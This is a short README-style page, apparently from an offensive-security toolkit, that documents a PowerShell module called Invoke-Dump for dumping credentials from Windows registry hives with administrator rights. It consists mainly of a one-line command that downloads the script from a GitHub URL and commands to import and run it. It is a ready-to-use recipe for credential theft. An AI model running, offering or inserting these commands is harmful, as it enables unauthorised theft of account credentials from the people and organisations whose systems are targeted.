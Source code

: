 ## Invoke-Dump.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Dump|Dump credentials from registry hives.|Administrator|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Sam/Invoke-Dump.ps1" -OutFile "Invoke-Dump.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Invoke-Dump.ps1" -Force
Invoke-Dump
```